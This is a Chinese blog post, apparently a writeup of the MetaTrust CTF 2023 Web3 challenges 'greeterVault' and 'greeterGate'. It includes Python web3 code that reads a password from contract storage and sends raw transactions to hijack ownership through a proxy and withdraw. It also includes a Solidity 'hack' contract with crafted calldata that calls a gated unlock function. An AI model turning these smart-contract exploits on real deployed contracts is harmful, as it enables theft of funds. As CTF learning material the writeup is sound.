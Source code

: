 #! title:  "MetaTrust CTF 2023 Writeup"
tags:

  - CTF
  - Writeup

#! meta end

哎呀，本来只是说随便玩一玩，没想到一不小心上了榜。在此感谢队友带带我。

#! head end

#! toc 目录


近日见有组织办Web3的CTF比赛，于是便和几位熟人组队打了打。正好寻思好久没写博客了，于是就有了这份Writeup。部分题目Writeup比较萌新向，可能有点长。本篇出现的题目并不一定表示做出来了，有完整解法。

由于本人一直会的工具链十分单一(没错我不会用Web3.js，也不会用Hardhat，更不会用Foundry)，外加有好几个工具链在chainflag的防火墙下不能正常使用，因此大部分题目我都是先在本地环境调好，然后直接发送原始input的。同时我本地使用Jupyter Notebook，因为懒得仔细整理，Writeup可能只会包含创建合约时使用的Solidity源码，以及直接调用合约时的部分源码。

## greeterVault

合约代码都不用写的简单题。注意到Vault代理了VaultLogic的代码，因此可以直接调用changeOwner修改owner，之后再调用withdraw达到条件。需要的password直接从storage读。

```python
logicaddr=Web3.toChecksumAddress(rw3.eth.get_storage_at(contaddr,0).hex()[-40:])
impaddr=Web3.toChecksumAddress(rw3.eth.get_storage_at(contaddr,1).hex()[-40:])
print(rw3.eth.get_storage_at(impaddr,1))

payload="0xd3a5b1070000000000000000000000005fcb718543e2003bf1509306d130c92db1852ca7000000000000000000000000"+owner
txn={'value': 0, 'gas': 2500000, 'gasPrice': 5000000000, 'chainId': rw3.eth.chain_id, 'nonce': rw3.eth.get_transaction_count(tta.address), 'from': tta.address, 'data': payload,'to':impaddr}
sendtx(txn)

payload="0x3ccfd60b"
txn={'value': 0, 'gas': 2500000, 'gasPrice': 5000000000, 'chainId': rw3.eth.chain_id, 'nonce': rw3.eth.get_transaction_count(tta.address), 'from': tta.address, 'data': payload,'to':impaddr}
sendtx(txn)
```

## greeterGate

要写合约代码的简单题。要满足条件需要调用unlock函数，这要求该调用必须从函数自己发出且包含data[2]。我们可以读S[5]得到data[2]。slot位置不需要去分析数据类型，只需要把bytecode逆向一下看看require里面拿的是谁就好了。使用resolve函数来让合约调用自己，注意这里面检查了调用必须是合约发出的，因此我们写一个小合约来调用resolve。从resolve调用unlock的payload我们人工调用一下unlock函数然后复制就行。

```solidity
contract hack
{
    constructor(address to)
    {
        Gate(to).resolve(hex"48c89491000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000207465737490ab0000000000000000000000000000000000000000000000000000");
    }
}
```
